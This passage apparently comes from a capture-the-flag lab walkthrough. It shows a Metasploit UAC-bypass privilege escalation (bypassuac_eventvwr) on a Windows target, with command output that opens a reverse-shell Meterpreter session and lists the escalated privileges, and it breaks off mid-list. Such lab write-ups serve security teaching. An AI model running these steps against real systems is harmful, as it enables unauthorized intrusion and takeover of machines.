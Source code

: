   #### After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. 
  
  `msf5 exploit(windows/local/bypassuac_eventvwr) > run`

> [*] Started reverse TCP handler on 10.10.203.123:4444 
> 
> [*] UAC is Enabled, checking level...
> 
> [+] Part of Administrators group! Continuing...
> 
> [+] UAC is set to Default
> 
> [+] BypassUAC can bypass this setting, continuing...
> 
> [*] Configuring payload and stager registry keys ...
> 
> [*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
> 
> [+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
> 
> [*] Sending stage (176195 bytes) to 10.10.105.232
> 
> [*] Meterpreter session 2 opened (10.10.203.123:4444 -> 10.10.105.232:49216) at 2022-08-03 21:52:14 +0100
> 
> [*] Cleaning up registry keys ...
  
  #### Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`.
  
  `sessions 2`
  
  #### We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files ?
  
  `meterpreter > getprivs`

> Enabled Process Privileges
> 
> ==========================
> 
> Name
> 
> ----
> 
> SeBackupPrivilege
> 
> SeChangeNotifyPrivilege
> 
> SeCreateGlobalPrivilege
> 
> SeCreatePagefilePrivilege
> 
> SeCreateSymbolicLinkPrivilege
> 
> SeDebugPrivilege
> 
> SeImpersonatePrivilege
> 
> SeIncreaseBasePriorityPrivilege
> 